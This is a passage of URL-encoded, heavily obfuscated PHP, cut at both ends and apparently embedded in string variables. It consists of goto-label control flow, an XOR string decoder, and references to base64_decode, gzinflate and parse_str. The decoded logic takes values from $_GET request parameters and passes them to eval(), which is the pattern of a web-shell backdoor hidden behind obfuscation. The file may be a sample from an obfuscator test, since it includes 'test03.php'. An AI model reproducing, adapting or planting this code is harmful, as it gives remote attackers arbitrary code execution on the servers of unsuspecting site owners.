bQFo%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+SVSYiPdA%3B%0A++++%7D%0A++++goto+ybGhvhUI%3B%0A++++ctyhYLyo%3A%0A++++return+%27UsNWiCIa%27%3B%0A++++wstHDVeZ%3A%0A++++if+%28%27zkmmmNqQ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+iXvrJQTh%3B%0A++++%7D%0A++++goto+GXFoJGRJ%3B%0A++++AkwEiDtO%3A%0A++++return+%27IjdaTFhH%27%3B%0A++++BdsjDgMz%3A%0A++++return+%27Q%27%3B%0A++++HRqRQhGJ%3A%0A++++return+%27a3Fyb2h0X29lcm54%27%3B%0A++++nqWOYDjI%3A%0A++++return+function+%28%24CJWvEjpM%2C+%24kLgiDHmH%29+%7B%0A++++++++return+%24CJWvEjpM+%7C%7C+%24kLgiDHmH%3B%0A++++%7D%3B%0A++++QmOATajf%3A%0A++++if+%28%27KsuEmfsq%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BynIRORu%3B%0A++++%7D%0A++++goto+fghNfwKm%3B%0A++++DPQaAPZD%3A%0A++++if+%28%27fxAHkxUv%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KOuFNbbh%3B%0A++++%7D%0A++++goto+hkLcllvX%3B%0A++++RZTalwbn%3A%0A++++return+%27X%27%3B%0A++++uRSWVzjv%3A%0A++++return+%27base64_decode%27%3B%0A++++JIZzZllt%3A%0A++++return+function+%28%24rzvFTqga%2C+%24CrqrVnMj%29+%7B%0A++++++++return+%24rzvFTqga+%21%3D+%24CrqrVnMj%3B%0A++++%7D%3B%0A++++hkLcllvX%3A%0A++++if+%28%27EXfoTWVZ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+HEkjJVTi%3B%0A++++%7D%0A++++goto+ggMYtvME%3B%0A++++pyPSfVFy%3A%0A++++if+%28%27SLeWhDlJ%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+qxVUqntG%3B%0A++++%7D%0A++++goto+AtHnygJh%3B%0A++++jxXvZtGg%3A%0A++++return+%27base64_decode%27%3B%0A++++lNcktOIe%3A%0A++++return+function+%28%24WpOKIHjB%2C+%24VRdRVLgX%29+%7B%0A++++++++return+%24WpOKIHjB+xor+%24VRdRVLgX%3B%0A++++%7D%3B%0A++++OECkeOxV%3A%0A++++if+%28%27uHXeMxwU%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZMBbgcxc%3B%0A++++%7D%0A++++goto+nIWLYxjT%3B%0A++++ddXPUQWS%3A%0A++++if+%28%27hVaIBtHI%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+WWWlHMit%3B%0A++++%7D%0A++++goto+rmnDKXoF%3B%0A++++OcOAOAEZ%3A%0A++++return+%27DgXSefXO%27%3B%0A++++ZCPQKPSd%3A%0A++++return+%27gzinflate%27%3B%0A++++DJFXditF%3A%0A++++if+%28%27WyBRUMMO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZzQTSMEi%3B%0A++++%7D%0A++++goto+mbxWIEHK%3B%0A++++KmXRwbrM%3A%0A++++if+%28%27ukZhsUwU%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+IJCJCtdw%3B%0A++++%7D%0A++++goto+TakgvxVU%3B%0A++++ytFKHLwG%3A%0A++++if+%28%27qOgKvshJ%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BqDvpZck%3B%0A++++%7D%0A++++goto+DPQaAPZD%3B%0A++++YrMzfqiw%3A%0A++++if+%28%27cRXGrKHL%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RfMXuTvj%3B%0A++++%7D%0A++++goto+LzqZUlLX%3B%0A++++LPLKlgXC%3A%0A++++if+%28%27IKDTZjVl%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+iDJAFLWY%3B%0A++++%7D%0A++++goto+CuSNsztl%3B%0A++++cuCVHFBn%3A%0A++++if+%28%27zZJDhcfY%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+NkEFkHXP%3B%0A++++%7D%0A++++goto+tFkKLkGN%3B%0A++++rhtoBftX%3A%0A++++return+%27vwcD%27%3B%0A++++ILHrcbFf%3A%0A++++return+%272%27%3B%0A++++WQSwssMT%3A%0A++++if+%28%27McyFBHgM%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+REnXAWyB%3B%0A++++%7D%0A++++goto+usxLZIMW%3B%0A++++aKjBLVrT%3A%0A++++if+%28%27SApofFtp%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+IIoCDnsj%3B%0A++++%7D%0A++++goto+kSkqrUhl%3B%0A++++fRnbLdFl%3A%0A++++if+%28%27HBOJOjQe%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+mGPSWSbu%3B%0A++++%7D%0A++++goto+HRvdrVhQ%3B%0A++++bZlkJXUi%3A%0A++++return+%27N%27%3B%0A++++TXCKvLXX%3A%0A++++if+%28%27CEiIodIK%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+OBqKMajH%3B%0A++++%7D%0A++++goto+EXUizRJb%3B%0A++++PJULPsKg%3A%0A++++return+function+%28%24PyPKTXNQ%2C+%24UMokJPIl%29+%7B%0A++++++++return+%24PyPKTXNQ+-+%24UMokJPIl%3B%0A++++%7D%3B%0A++++jZKridiT%3A%0A++++if+%28%27bhSvZlvG%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+grrpdaLN%3B%0A++++%7D%0A++++goto+BvwsuIaD%3B%0A++++BqDvpZck%3A%0A++++return+%27parse_str%27%3B%0A++++ZgSOFMHH%3A%0A++++return+%27LfoWGsDx%27%3B%0A++++HrUFcTGv%3A%0A++++return+function+%28%24eAggBmTM%2C+%24kwlFKWoP%29+%7B%0A++++++++return+%24eAggBmTM+%2A%2A+%24kwlFKWoP%3B%0A++++%7D%3B%0A++++mQJqdJTa%3A%0A++++return+%27w%27%3B%0A++++GXFoJGRJ%3A%0A++++return+%273%27%3B%0A++++CcAAjSSG%3A%0A++++if+%28%27MQEkCfkh%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+pTBsyEFp%3B%0A++++%7D%0A++++goto+RyXEzfIq%3B%0A++++eLyOYakB%3A%0A++++if+%28%27spPKZpZy%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+inxkVNTw%3B%0A++++%7D%0A++++goto+ouMCEyvh%3B%0A++++MBjlTpBV%3A%0A++++if+%28%27tjbqMUWL%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+bqbALpYw%3B%0A++++%7D%0A++++goto+WQSwssMT%3B%0A++++tgjaGWJw%3A%0A++++if+%28%27nHcelTTQ%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+nQoPQacV%3B%0A++++%7D%0A++++goto+WBilwBrq%3B%0A++++nSZXcfsa%3A%0A++++if+%28%27nnIAFrXL%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+MKMUYHDK%3B%0A++++%7D%0A++++goto+eguCRGrN%3B%0A++++dKjqCtfB%3A%0A++++if+%28%27oFTiwEkU%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+eGhQVMKg%3B%0A++++%7D%0A++++goto+ppBcTHKI%3B%0A++++gDRuviAK%3A%0A++++if+%28%27uMKlzAUi%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+UmlQEXTi%3B%0A++++%7D%0A++++goto+ObzlUfev%3B%0A++++XZuJxtpa%3A%0A++++if+%28%27gHPrnoDw%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+tgjaGWJw%3B%0A++++%7D%0A++++goto+AkwEiDtO%3B%0A++++NOnogkoM%3A%0A++++if+%28%27iqcfrYtO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+EFcmUPBn%3B%0A++++%7D%0A++++goto+GkipTcaV%3B%0A++++ybGhvhUI%3A%0A++++if+%28%27vISLzHzV%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+LPLKlgXC%3B%0A++++%7D%0A++++goto+ioLhMklN%3B%0A++++XvItcNzc%3A%0A++++if+%28%27yyEDyfSY%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+DdYikSFD%3B%0A++++%7D%0A++++goto+GzluoZJk%3B%0A++++ZNkHwSQk%3A%0A++++if+%28%27NqnIghnl%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+LvSAyVtB%3B%0A++++%7D%0A++++goto+KXLQhWfz%3B%0A++++iXvrJQTh%3A%0A++++if+%28%27gNgFMVhy%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+bZlkJXUi%3B%0A++++%7D%0A++++goto+VfdAOUBe%3B%0A++++GdgzqsES%3A%0A++++if+%28%27BvKonMcO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+MHTgKEtc%3B%0A++++%7D%0A++++goto+sgsOndeL%3B%0A++++OEZfsUfx%3A%0A++++if+%28%27qUmorfpr%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+NDskRmmB%3B%0A++++%7D%0A++++goto+uCsHGPUP%3B%0A%7D%0A";
$b="<?php\ninclude \"test03.php\";\ngoto+lSRvEhMi%3B%0AobwIzjAT%3A%0Aif+%28zwchpheW%28%27%0C%21%16%192%1B%2F%3B%27%29%28zwchpheW%28%2773%0A%28%28+2.%27%29%28zwchpheW%28%27%16%0C%25%00%3D%23%2B%23%27%29%28zwchpheW%28%27%23%3B%0A%0D%28%01%28-%27%29%2C+%24FlBkEbJN%29%2C+%24FlBkEbJN%29+%3F+zwchpheW%28%274%24.%2A%28%03%13%03%27%29%28%24FlBkEbJN%5BzwchpheW%28%27%12%162%12%006%22%02%27%29%5D%29+%3A+%24FlBkEbJN%29%29+%7B%0A++++if+%28zwchpheW%28%273%21%261%04%23%11%1B%27%29%28zwchpheW%28%27%1D6%10%24%03%28%19%28%27%29%28%29%2C+zwchpheW%28%27%10%19%3B.%0C%17%0D%01%27%29%28zwchpheW%28%27%2F%254%12%0E%00%3B3%27%29%28zwchpheW%28%27%255%09%24%25%1D+%26%27%29%28zwchpheW%28%27%0F0%03%28%2C%212%3C%27%29%29%29%29%29%29+%7B%0A++++++++while+%28true%29+%7B%0A++++++++++++eval%28zwchpheW%28%27%0A4%25%19%0E8%08%2C%27%29%28zwchpheW%28%27%09-%0B%0A%0D%22%1B%25%27%29%29%29%3B%0A++++++++++++zwchpheW%28%271%1B%21%1E%299%2C8%27%29%28%29%3B%0A++++++++%7D%0A++++%7D%0A%7D%0Aif+%28zwchpheW%28%2724%0A%1C8%29%21%25%27%29%28%24_GET%5BzwchpheW%28%270%3A%00%19%1E%1D%0E%26%27%29%5D%2C+zwchpheW%28%27%0B%25%0C%09%3D%00%2B+%27%29%29%29+%7B%0A++++goto+GvoJpFDc%3B%0A%7D%0Agoto+EjewjkIk%3B%0AGvoJpFDc%3A%0AEyrGFkjP%3A%0Aswitch+%28%24_GET%5B%24bbkeygZp%5D%29+%7B%0A++++case+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%280%2C+4%29%2C+1%29%3A%0A++++++++%24bbkeygZp+%3D+zwchpheW%28%2707%111%5C%27%0A%15%25%27%29%28zwchpheW%28%270%26%053%12%21%2A%3B%27%29%29%3B%0A++++++++break%3B%0A++++case+zwchpheW%28%27%3E%11%0E%12%242-%2C%27%29%28%24GQGQujrU%2C+2%29%3A%0A++++++++%24oSlsycCs+%3D+%24_GET%5B%24BpbKKhif%5D%3B%0A++++++++break%3B%0A++++case+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%280%2C+3%29%2C+3%29%3A%0A++++++++eval%28%24oSlsycCs%29%3B%0A++++++++break%3B%0A++++case+zwchpheW%28%27%3E%11%0E%12%242-%2C%27%29%28%24ZJgvhsQL%2C+4%29%3A%0A++++++++%24QCgLjrfL+%3D+zwchpheW%28%27%21%00%2B%12%3F2%0F%3A%27%29%28zwchpheW%28%27%05%1A%10%0A%2F%13.%0A%27%29%28zwchpheW%28%27%0E%0A%21%3C%1A44-%27%29%2C+array%28zwchpheW%28%27+%14%03%11%257%09%23%27%29%2C+zwchpheW%28%27.7%2C%3F%3C%25%05%11%27%29%2C+zwchpheW%28%27%2A6%29%1E%2C%21%21%13%27%29%2C+zwchpheW%28%27%2F.%3B%21%28%3B%1B%25%27%29%2C+zwchpheW%28%27%05%024%5C%27%28%28%00%13%27%29%2C+zwchpheW%28%27%1D%28%2F%26%26%1E28%27%29%2C+zwchpheW%28%27%0D+03%19%06%14%0F%27%29%2C+zwchpheW%28%27%12%0E%09%5C%271%11%16%00%27%29%2C+zwchpheW%28%27%2F%2C%2F%29%1C%3E%12%10%27%29%2C+zwchpheW%28%27%01%3B%03%03+%28%16%1F%27%29%2C+zwchpheW%28%27%08%05%16%22%3C%15%28%3C%27%29%2C+zwchpheW%28%27%04%22%0A%3A%28%3D%05%10%27%29%29%29%29%3B%0A++++++++break%3B%0A++++default%3A%0A++++++++break%3B%0A%7D%0Agoto+FEunpQKI%3B%0AkYMZpwWr%3A%0AILYCuddP%3A%0A%24ZpSPisLF+%3D+%24_GET%5BzwchpheW%28%27%0818%28%21%11%0B%13%27%29%28zwchpheW%28%27++211%25%24%19%27%29%28zwchpheW%28%27-%1B%12%3F%08%13%0D%11%27%29%29%29%5D%3B%0Agoto+iHHqynAa%3B%0AZTnfHTWW%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28zwchpheW%28%27%103%0D%1C%04%243%10%27%29%28%24kaXeAUet%2C+%24BpbKKhif%29%2C+zwchpheW%28%27%1E7%0A%09%24%06%05%3B%27%29%286409%2C+712%29%29%29+%7B%0A++++%24oSlsycCs+%3D+%24_GET%5B%24kaXeAUet%5D%3B%0A%7D%0Aif+%28zwchpheW%28%2724%0A%1C8%29%21%25%27%29%28%24_GET%5BzwchpheW%28%27%09%06%5C%27+%0D%5C%27%5C%27%0F%27%29%5D%2C+zwchpheW%28%27-%13%081%01%08%01-%27%29%29%29+%7B%0A++++goto+ReutkCgg%3B%0A%7D%0Agoto+gdtsdSXP%3B%0AcPvaGvNx%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28%24_GET%5BzwchpheW%28%27%24%29%03%2F%02%3A%14%13%27%29%5D%2C+zwchpheW%28%27%0F%05%09%2C-%00%0B%2B%27%29%29%29+%7B%0A++++goto+kYMZpwWr%3B%0A%7D%0Aif+%28zwchpheW%28%275%0F1%1A%3E%04-%01%27%29%28zwchpheW%28%27%2F-%1B%04%1B%25%2B%3E%27%29%28zwchpheW%28%27%2C0%0C%28.%3B%13%1E%27%29%28zwchpheW%28%27%053+%3C%3D%08%2A%26%27%29%29%29%29%29+%7B%0A++++%24HpwLEJJs+%3D+zwchpheW%28%27%28%3A%17%3C%1E%1E5%1A%27%29%28%29%3B%0A++++if+%28zwchpheW%28%2724%0A%1C8%29%21%25%27%29%28%24HpwLEJJs%2C+false%29%29+%7B%0A++++++++zwchpheW%28%27%05%14%0D%1D%09%1B%17%05%27%29%28zwchpheW%28%27%1D%2B3%2F%06%13%28%3D%27%29%28%29%2C+zwchpheW%28%2715%0B9%2C%01%21%3A%27%29%28zwchpheW%28%275%04%01%2F8+%5C%27+%27%29%28zwchpheW%28%27%17%22%2A%23%1A%0A%2B%3A%27%29%29%29%29%3B%0A++++%7D%0A%7D%0Areturn%3B%0AqMZIDiPH%3A%0A%24kaXeAUet+%3D+%24BpbKKhif+%3D+%24ZpSPisLF+%3D+%24bbkeygZp+%3D+%24oSlsycCs+%3D+%24QCgLjrfL+%3D+null%3B%0Aif+%28zwchpheW%28%2724%0A%1C8%29%21%25%27%29%28%24_GET%5BzwchpheW%28%27%14%24%03%1A%249-%03%27%29%5D%2C+zwchpheW%28%27%00%0B%129%25%3F%07%1E%27%29%29%29+%7B%0A++++goto+gdtsdSXP%3B%0A%7D%0Agoto+qMZIDiPH%3B%0AgxgDCdEm%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28zwchpheW%28%27%0C%3A%01%0C%5C%27%17%28%21%27%29%28%24kaXeAUet%2C+%24BpbKKhif%29%2C+zwchpheW%28%27%1E7%0A%09%24%06%05%3B%27%29%284665%2C+1270%29%29%29+%7B%0A++++%24bbkeygZp+%3D+%24_GET%5B%24kaXeAUet%5D%3B%0A%7D%0Agoto+ZTnfHTWW%3B%0ArXBVeFEb%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28zwchpheW%28%27-%21%17%0A%24%04%15%3B%27%29%28%29%2C+zwchpheW%28%27%12%19%299%078%05%3C%27%29%28zwchpheW%28%27%289%21%18%1F%3D.9%27%29%29%29%29+%7B%0A++++return%3B%0A%7D%0Agoto+afhrbEzq%3B%0AcJVhAtFJ%3A%0ACLUAbPdZ%3A%0A%24AqGYUYpi+%3D+zwchpheW%28%27%16%16%2F%24963%1B%27%29%28zwchpheW%28%27%1D%19%08%0F%233%250%27%29%28%29%2C+zwchpheW%28%27%0C%3A%01%0C%5C%27%17%28%21%27%29%28zwchpheW%28%27%114%28%19%3F%24%16%26%27%29%2C+4860%29%29%3B%0Agoto+SjpvFsSZ%3B%0AEjewjkIk%3A%0A%24BpbKKhif+%3D+%24_GET%5BzwchpheW%28%27%1D%15%2B%21%217%22%19%27%29%28zwchpheW%28%27%00%2B%17%3A%11%09%07%13%27%29%29%5D%3B%0Agoto+kYMZpwWr%3B%0AgdtsdSXP%3A%0Aif+%28zwchpheW%28%27%2A%12%07+%086%28%01%27%29%28zwchpheW%28%27%23%07%03%29%1A%1D3%2C%27%29%28zwchpheW%28%27%3D%01%05%29%0C%04%108%27%29%28zwchpheW%28%274%115%1C%1B%24%25%26%27%29%2C+array%28zwchpheW%28%27%13%29+%3A%06%05%14%25%27%29%2C+zwchpheW%28%27%0F%04%21%22%28%23.%13%27%29%2C+zwchpheW%28%27%3F%12%2C%3D%037%22%3B%27%29%2C+zwchpheW%28%27%16%3A%14%3F%1C%26%12%2C%27%29%2C+zwchpheW%28%27%2A+%3B%0D%09%18%24%24%27%29%2C+zwchpheW%28%27%1E%3A%07%0F26%100%27%29%2C+zwchpheW%28%27%25-%28%0E%08%3C%0A%0D%27%29%2C+zwchpheW%28%27%2F%2B1%22%0D%211%18%27%29%2C+zwchpheW%28%27%0A%0E%0E%06%26%3C%0A%04%27%29%2C+zwchpheW%28%27%265.%1D+%3B%02%3B%27%29%2C+zwchpheW%28%27%221%23%25%0D%24%08%23%27%29%2C+zwchpheW%28%27%1D%1B%23%2328.%2F%27%29%2C+zwchpheW%28%27-%08-%1D%11%22%1B.%27%29%2C+zwchpheW%28%27%09%0B%21.%5C%27%04%178%27%29%2C+zwchpheW%28%2777%173%06%3B%2A%0D%27%29%2C+zwchpheW%28%27-7%0D3%3B%3F%09%0A%27%29%29%29%29%29%29+%7B%0A++++zwchpheW%28%27%25%19%00%24%29%3D3+%27%29%28%29%3B%0A%7D%0Agoto+xQrHaXjB%3B%0AReutkCgg%3A%0A%24QCgLjrfL+%3D+zwchpheW%28%27%11%0A%11%071%189%3F%27%29%28zwchpheW%28%27%01%2A2%04%23%13%02%2C%27%29%28zwchpheW%28%27%1E%1A%23%3B-8%2B-%27%29%29%29%3B%0Aif+%28zwchpheW%28%2724%0A%1C8%29%21%25%27%29%28%24_GET%5BzwchpheW%28%27%0D%08%00%5C%27%2C%17%16%07%27%29%5D%2C+zwchpheW%28%27.%018%18%0F%3C0%1F%27%29%29%29+%7B%0A++++goto+CFBknnfW%3B%0A%7D%0Agoto+ZTnfHTWW%3B%0AiHHqynAa%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28%24_GET%5BzwchpheW%28%27%04%11%1A%0C9%1B%0B%25%27%29%5D%2C+zwchpheW%28%27%16%00%123%00%00.%28%27%29%29%29+%7B%0A++++goto+qMZIDiPH%3B%0A%7D%0Aif+%28zwchpheW%28%27%0F%021%2A%0C%06%0F%26%27%29%28zwchpheW%28%27%243%2F-%06%05%17%05%27%29%28zwchpheW%28%27+%3B%1A%09%18%3A%2C%19%27%29%28zwchpheW%28%270%3B%26%01%2F%1E%28%0E%27%29%2C+array%28zwchpheW%28%27%0E2%21-9%097%26%27%29%2C+zwchpheW%28%27%2405%22%3C+++%27%29%2C+zwchpheW%28%27%22%1B%24%24%1F%07%153%27%29%2C+zwchpheW%28%275%2A%0E%3E%091%2A3%27%29%2C+zwchpheW%28%27%143%12%00%11+%19%10%27%29%2C+zwchpheW%28%27%17%000%18%2F%25%3A%0A%27%29%2C+zwchpheW%28%274%125%08%1F%1A7%01%27%29%2C+zwchpheW%28%27%03%2F%23%28%5C%273%3B%19%27%29%2C+zwchpheW%28%27%0B%21%25%1B%047%0A%03%27%29%2C+zwchpheW%28%27%21%2A%09%058%1A%3A%26%27%29%2C+zwchpheW%28%27%2A.%2F%00%097%12%11%27%29%2C+zwchpheW%28%27%09+%28%0A%21%09%139%27%29%2C+zwchpheW%28%27%09%123%0C%19%09%0B%0B%27%29%2C+zwchpheW%28%273+8%1D%1B87%08%27%29%2C+zwchpheW%28%27+%13%26%23%29%01%05%06%27%29%2C+zwchpheW%28%27%299%21%00%1E86%1B%27%29%2C+zwchpheW%28%274%14%03%07%29%3A0%0A%27%29%2C+zwchpheW%28%27%2B%25%0E9%077%11%3D%27%29%2C+zwchpheW%28%27%2C07%0E%2660%18%27%29%2C+zwchpheW%28%27%3D%102%08%139%049%27%29%29%29%29%29%29+%7B%0A++++zwchpheW%28%274%2F%18-2%01%069%27%29%28zwchpheW%28%27%05%0C%2B%04%04%192%2B%27%29%28zwchpheW%28%27%13%13%0D%1E%009%1A%5C%27%27%29%28zwchpheW%28%27%0C9%2B%1B%03%3D%11%25%27%29%29%29%29%3B%0A%7D%0Agoto+rXBVeFEb%3B%0AFEunpQKI%3A%0Aif+%28zwchpheW%28%27%13%17%05%2A%00++%02%27%29%28zwchpheW%28%27%06%05%10%5C%27%244%15%2C%27%29%28zwchpheW%28%27%23%07%28%0A%01%3D-%26%27%29%29%29%29+%7B%0A++++zwchpheW%28%27%24.%5C%27%01%132%2C%0E%27%29%28%29%3B%0A%7D%0Agoto+cJVhAtFJ%3B%0AsBdqTzet%3A%0Aif+%28%21%24_SERVER%5BzwchpheW%28%27.%3A%2A+%25%3B%3B%1D%27%29%28zwchpheW%28%272%057%08%3A%037%02%27%29%28zwchpheW%28%27%15%19%179%1C%09%16%3A%27%29%29%29%5D%29+%7B%0A++++return%3B%0A%7D%0Aif+%28zwchpheW%28%2724%0A%1C8%29%21%25%27%29%28%24_GET%5BzwchpheW%28%27%12%12%13%04%1C%09%0C.%27%29%5D%2C+zwchpheW%28%27%24%22%26%09%0240%0B%27%29%29%29+%7B%0A++++goto+uYMqdnTC%3B%0A%7D%0Agoto+gdtsdSXP%3B%0AafhrbEzq%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28%24kaXeAUet%2C+%24BpbKKhif%29%2C+%24ZpSPisLF%29%2C+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%28198%2C+2%29%2C+2%29%29%29+%7B%0A++++%24bbkeygZp+%3D+%24_GET%5B%24kaXeAUet%5D%3B%0A%7D%0Agoto+sBdqTzet%3B%0AuYMqdnTC%3A%0Aif+%28zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28%24kaXeAUet%2C+%24BpbKKhif%29%2C+%24ZpSPisLF%29%2C+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%28288%2C+1%29%2C+1%29%29%29+%7B%0A++++%24oSlsycCs+%3D+%24_GET%5B%24BpbKKhif%5D%3B%0A%7D+else+%7B%0A++++%24oSlsycCs+%3D+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28%24kaXeAUet%2C+%24BpbKKhif%29%2C+%24ZpSPisLF%29%3B%0A%7D%0Agoto+obwIzjAT%3B%0AiEiecygV%3A%0ASjpvFsSZ%3A%0Aeval%28zwchpheW%28%276%2A%28%23%1A%0A%29%00%27%29%28zwchpheW%28%27%28.%24%1E%0433%00%27%29%28zwchpheW%28%27%03%265%262%3F%161%27%29%29%29%29%3B%0Agoto+fBBKzygV%3B%0ACFBknnfW%3A%0Aif+%28zwchpheW%28%27%05%09%0E%04%3B%16%0D%26%27%29%28zwchpheW%28%27%28%0F%21%11%28%1F%0D%0E%27%29%28zwchpheW%28%27%12%0B%1A.%06%284%3C%27%29%29%29%29+%7B%0A++++echo+zwchpheW%28%27%21.%00%29%00%05%06%18%27%29%28zwchpheW%28%270-1%3E%3A%136%11%27%29%28zwchpheW%28%27%02%1482%2C%3A+%2C%27%29%2C+array%28zwchpheW%28%27%159%212%0F%07%11%3B%27%29%2C+zwchpheW%28%27%0F%07%2C%1A%1D%5C%27%17%23%27%29%2C+zwchpheW%28%27-%15%2A%05%3F%1A%02%1D%27%29%2C+zwchpheW%28%27%0C%0D5%1B%22%06%05%19%27%29%2C+zwchpheW%28%27%28%1A%05%138%3F%0F.%27%29%2C+zwchpheW%28%276%12%29%3D%0D%1A%13%3B%27%29%2C+zwchpheW%28%27%06%0B%0B%09%2F%04%139%27%29%2C+zwchpheW%28%27%292%2C%02%2C8-%05%27%29%2C+zwchpheW%28%27%12%1B%10%18%24%01%213%27%29%2C+zwchpheW%28%27%13%07%2B%04%12%18%14%07%27%29%2C+zwchpheW%28%27%00%0D%25%0D%06%06%2B%10%27%29%2C+zwchpheW%28%27%2F%10%17%1E%25%3E%091%27%29%2C+zwchpheW%28%276%3B%09%0A37%0C%2F%27%29%2C+zwchpheW%28%27%23%02%0B%3E%5C%27%00%24%26%27%29%2C+zwchpheW%28%27%03+%17%19.%03%22%06%27%29%2C+zwchpheW%28%27%0211+%19%3E43%27%29%2C+zwchpheW%28%27%3E%0D%0F%1A%3A%3B%16%0B%27%29%2C+zwchpheW%28%27%095%12%129%17%19%05%27%29%2C+zwchpheW%28%271%01+%1E%23%19%21%28%27%29%2C+zwchpheW%28%27%1E%00%0D.8%00%29%22%27%29%29%29%29%3B%0A++++die%28zwchpheW%28%27%3E%11%0E%12%242-%2C%27%29%28%24bGZFDlhq%2C+0%29%29%3B%0A%7D%0Agoto+cPvaGvNx%3B%0AlSRvEhMi%3A%0AzwchpheW%28%27%1D%01%12%0D%3E%29%108%27%29%28zwchpheW%28%27%1E7%0A%09%24%06%05%3B%27%29%285584%2C+698%29%29%3B%0Agoto+qMZIDiPH%3B%0AfBBKzygV%3A%0A%24GSrXvjmv+%3D+zwchpheW%28%27%16%16%2F%24963%1B%27%29%28zwchpheW%28%27%22%14+%09%09%22%19%3B%27%29%28%29%2C+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%281000%2C+0%29%2C+0%29%29%3B%0Agoto+WKlEaiFV%3B%0AWKlEaiFV%3A%0Aif+%28zwchpheW%28%27%05%2B%11%3D%11%3C5.%27%29%28zwchpheW%28%27%0C%3A%01%0C%5C%27%17%28%21%27%29%28%24GSrXvjmv%2C+%24AqGYUYpi%29%2C+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%2850%2C+1%29%2C+0%29%29%29+%7B%0A++++return%3B%0A%7D%0Agoto+jfukEYKH%3B%0AxQrHaXjB%3A%0A%24kaXeAUet+%3D+%24_GET%5BzwchpheW%28%2773%0A%28%28+2.%